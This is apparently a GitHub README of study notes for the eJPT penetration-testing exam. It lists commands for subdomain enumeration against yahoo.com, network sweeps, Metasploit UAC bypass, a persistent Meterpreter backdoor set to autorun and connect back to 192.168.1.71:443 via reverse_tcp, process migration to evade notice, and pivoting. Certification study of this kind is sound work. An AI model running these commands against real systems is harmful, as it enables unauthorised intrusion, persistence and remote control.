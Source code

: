 # eJPT
Some helps to pass eJPT
# Information Gathering
## Subdomain Enumeration
```
root@kali:~# sublist3r -v -d yahoo.com -w /usr/share/wordlists/
```
or we can use -b to bruteforce
# Footprinting & Scanning

## Ping Sweep
You can scan all network with nmap, -sn to disable port scan
```
root@kali:~# nmap -sn -n 10.142.111.0/24
```
but you can scanning entire network with fping
```
root@kali:~# fping -a -g 10.142.111.0/24 2> /dev/null
```

# Metasploit
Start metasploit with

```
$ msfconsole
```
# Meterpreter
## Privileges Escalation
On windows machine
```
meterpreter> getsystem
```
if doesn't work, probably windows has UserControlAccess enabled,so:
```
meterpreter> run post/windows/gather/win_privs
```
look if is true, and then
```
meterpreter> background
msf exploit(handler)> search uac
```
```
msf exploit(handler)> use exploit/windows/local/bypassuac
msf exploit(handler)> sessions
msf exploit(handler)> set SESSION <n>
msf exploit(handler)> exploit
meterpreter> getsystem
```
## Persistence
```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```
We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address 192.168.1.71 on port 443.
```
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
[*] Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```
To verify that it works, we reboot the remote system and set up our payload handler.
```
meterpreter > reboot
Rebooting...
meterpreter > exit

[*] Meterpreter session 3 closed.  Reason: User exit
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.71:443
[*] Starting the payload handler...
```
## Migrate PID to another PID to look less sus
```
meterpreter> getpid
meterpreter> ps -U SYSTEM //process with system privilege, choose one
meterpreter> migrate PID
```
# Pivoting
When we get access into a machine, we can check with ifconfig if there is another network which we couldn't access.
So let add the route to this network in msfconsole.
```
meterpreter> run autoroute -h
```
autoroute allow us to add a route to the network.
```
route add 192.69.228.0 255.255.255.0 1
```
for adding manually a route on msfconsole:

add //the command

subnet //subnet to connect

netmask //netmask of the subned

sid //meterpter session id

